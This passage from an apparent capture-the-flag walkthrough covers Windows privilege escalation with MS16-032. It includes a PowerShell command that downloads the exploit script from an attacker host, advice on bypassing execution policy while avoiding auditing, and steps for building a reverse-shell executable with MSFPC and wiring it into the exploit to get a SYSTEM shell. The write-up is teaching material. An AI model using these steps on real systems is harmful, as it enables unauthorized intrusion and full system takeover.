 Now maybe we can curl or wget to get it, some server have those tools installed. Nope, neither of those are available. Luckily for us, we do have access to PowerShell. Lets use that to get what we need. Lets open a PowerShell interface and use the System.Net.WebClient functionality to get what we need:

```powershell
(New-Object System.Net.WebClient).DownloadFile("http://10.10.15.114:8080/invoke-ms16-032.ps1","invoke_exploit.ps1")
```

Once we have the file downloads, we can run it from PowerShell.exe using -f <filename>. But we can't run it, our Script Execution Policy is block us. We can set the flag as we run it or we can set it globally. We should probably set the flag on each run to avoid any type of auditing that might be done on those registry keys. So lets run it with -exectuionpolicy bypass

{{< figure src="__GHOST_URL__/content/images/2019/01/ps2.PNG" >}}

So we set our flags and it ran but nothing happened. Why is that? Well, we simply loaded the module to memory and need to call invoke-ms16-032. But when we try, we still get nothing. As if it wasn't actually being stored in memory. That's ok, easy fix. Let modify the  invoke_exploit.ps1 and at the end of the file, simply call itself.

{{< figure src="__GHOST_URL__/content/images/2019/01/ps3.PNG" caption="Invoke-MS16-032 appended to the end of the script." >}}

Now, lets rerun that.

{{< figure src="__GHOST_URL__/content/images/2019/01/exploit1.PNG" caption="SUCCESS!" >}}

Awesome! It worked, we have a system shell! Great... but I'm not system, I'm still security, what gives? Well, if you examine the MS16-032 script and read up on how it functions, this will actually open another Command prompt with System rights. How do we migrate to that command prompt? Well, we can't.. so now what?

Just a few moments ago, we looked at the MS16-032 PowerShell script and saw that it was calling another cmd.exe to migrate to. What we can do here is point that script to our own .exe. We're going to create an .exe that is actually a reverse TCP connection back to our Kali box. We'll then point the MS16-032.ps1 file to launch the malicious .exe we've just created. When it does, it will spawn that process as System. We'll then have a reverse shell connection as System on the box!

Lets create our payload. Previously we would us MSF Venom but that has repacked as MSFvenom Payload Creator or MSFPC. We will use some very simple payload options. We want to specify Windows as our target, bind to our ip on port 443 and a reverse shell. To do all this we run MSFPC Windows -v. There are better ways to do this, but this way is beginner friendly and fast. When we run it, we will get verbose mode. It will prompt us which IP to bind to:

{{< figure src="__GHOST_URL__/content/images/2019/01/msfpc-1.PNG" caption="Selecting our IP to bind too" >}}

You will see that the process writes out an executable to the current path, as well as a remote connection file. Lets rename those output files to something like, badguy.exe and badbuy.rc.

Ok, so now that we have our reverse shell files, lets modify our MS16-032.ps1 file to launch that file. What we need to remember is that it needs to point to the file and path of where we will download this file to. We open up our already modified invoke-ms16-032.ps1 and head down to line 333. Here we will see the call to cmd.exe. Let's copy that line, then comment it out. We'll then paste into a new line below it and change this path to the path of our malicious executable.
